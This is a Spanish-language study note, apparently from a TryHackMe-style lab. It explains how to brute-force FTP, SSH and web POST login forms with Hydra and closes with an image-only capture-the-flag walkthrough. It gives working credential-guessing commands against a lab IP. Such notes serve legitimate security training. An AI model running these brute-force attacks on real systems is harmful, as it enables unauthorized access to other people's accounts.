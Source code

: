 ```yaml
---
layout: apunte
title: "2. Using Hydra"
---
```


<h2>Comandos Hydra</h2>
Las opciones que le pasemos a Hydra dependerán de qué servicio (protocolo) estemos intentando atacar. Por ejemplo, si queremos atacar el srvicio FTP con el nombre de usurio `user` y la lista de contraseñas `passlist.txt`, usaríamos el siguiente comendo:

`hydra -l user -P passlist.txt ftp://IP`

Aquí vemos algunos comandos tanto para SSH como para formulario web (POST).

---------------------------
<h2>SSH</h2>
`hydra -l <username> -P <full path to pass> <IP> -t <number> ssh`

| Opción | Descripción                              |
| ------ | ---------------------------------------- |
| `-l`   | Especifica el usuario para el loguin SSH |
| `-P`   | Indica la lista de contraseñas.          |
| `-t`   | Configura el número de hilos que usar    |
Por ejemplo, `hydra -l root -P passwords.txt 10.10.141.231 -t 4 ssh` lanzará un ataque de fuerza bruta contra el puerto 22 de la IP `10.10.141.231` con 4 hilos al usuario `root` con la lista de contraseñas `passwords.txt`.

-------------------------
<h2>POST Web Form</h2>
Podemos usar Hydra para bruteforcear formularios web también. Debemos saber qué tipo de petición se está haciendo (GET/POST).

`sudo hydra <username> <wordlist> <IP> http-post-form "<path>:<login_credentials>:<invalid_response>"`

| Opción                | Descripción                                                                                            |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| `-l`                  | El nombre de usuario para el login                                                                     |
| `-P`                  | La lista de contraseñas                                                                                |
| `http-post-form`      | El tipo de formulario es POST                                                                          |
| `<path>`              | La URL de login, por ejemplo `login.php`                                                               |
| `<login_credentials>` | El nombre de usuario y contraseña usados para loguearse, por ejemplo `username=^USER^&password=^PASS^` |
| `<invalid_response>`  | Parte de la respuesta cuando el login falla                                                            |
| `-V`                  | Output verboseado para cada intento                                                                    |
Por ejemplo:

`hydra -l username -P wordlist 10.10.141.231 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

- La página de login es la dirección principal (`/`).
- El nombre de usuario es `username`.
- Dicho nombre de usuario reemplazará a ^USER^.
- La lista de contraseñas es `wordlist`.
- Dichas contraseñas sustituirán a ^PASS^.
- Finalmente, `F=incorrect` es una string que aparecerá si el login en el servidor falla.

-----------------------
<h2>Challenge</h2>
1. Abrimos la página dada:
   !**150.png**
2. Comprobamos el método, en este caso POST:
   !**151.png**
3. Lanzamos hydra con los parámetros correspondientes:
   !**152 1.png**
4. Obtenemos la contraseña:
   !**153.png**
5. Entramos y obtenemos la flag:
   !**154.png**
6. Usamos hydra para romper la contraseña ssh de molly:
   !**155.png**
7. Entramos por ssh y obtenemos la flag:
   !**156.png**

